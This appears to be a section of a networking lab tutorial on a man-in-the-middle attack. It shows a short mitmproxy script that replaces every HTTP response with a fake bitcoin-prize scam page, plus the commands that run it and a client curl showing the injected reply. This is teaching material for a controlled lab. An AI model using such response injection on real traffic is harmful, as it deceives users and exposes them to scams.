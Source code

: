# 5. Man-In-The-Middle
First we configure and start the mitmproxy on **MITM**.

To replace the content of a response we add a small python script and pass it to mitmproxy.
```bash
cat << EOF > injection.py
from mitmproxy import http


def response(flow: http.HTTPFlow) -> None:
    flow.response.content = "<h1>You won!</h1><div>Claim your prize of 10 bitcoins at scam.com</div>".encode("utf-8")
EOF
```
The proxy can then be started:
```bash
mitmproxy -s "injection.py" 
```
On the **client** site can be accessed over the proxy by setting an environment variable when calling curl.
```bash
root@client:~# http_proxy=10.0.6.1:8080 curl 192.168.1.100:8080
<h1>You won!</h1><div>Claim your prize of 10 bitcoins at scam.com</div>
```
The proxy successfully injected its own response into the reply.

Mitmproxy can be exited by entering "q" and then "y" into the terminal.